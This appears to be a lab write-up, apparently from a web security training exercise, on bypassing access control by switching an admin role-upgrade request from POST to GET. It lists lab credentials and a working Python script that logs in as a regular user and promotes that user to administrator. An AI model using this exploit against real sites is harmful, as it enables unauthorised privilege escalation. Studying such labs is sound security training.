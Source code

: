 Target Goal - Promote user to become administrator

creds: administrator:admin, wiener:peter

Steps to exploit:

Login with admin user perform upgrade user
With same request login with regular user and try to POST the same request -> Unautorized
If we change the method POST to GET and perform the request we successfully upgrade user with regular user!

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def promote_to_admin(s, url):

    # login as the wiener user
    login_url = url + "/login"
    data_login = {"username": "wiener", "password": "peter"}

    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user.")

        # Exploit access control vulnerability to promote the user to admin
        admin_roles_url = url + "/admin-roles?username=wiener&action=upgrade"
        r = s.get(admin_roles_url, verify=False, proxies=proxies)
        res = r.text
        if "Admin panel" in res:
            print("(+) Successfully promoted the user to administrator.")
        else:
            print("(-) Could not promote the user to administrator.")
            sys.exit(-1)
    else:
        print("(-) Could not login as the wiener user.")
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    promote_to_admin(s, url)

if __name__ == "__main__":
    main()
```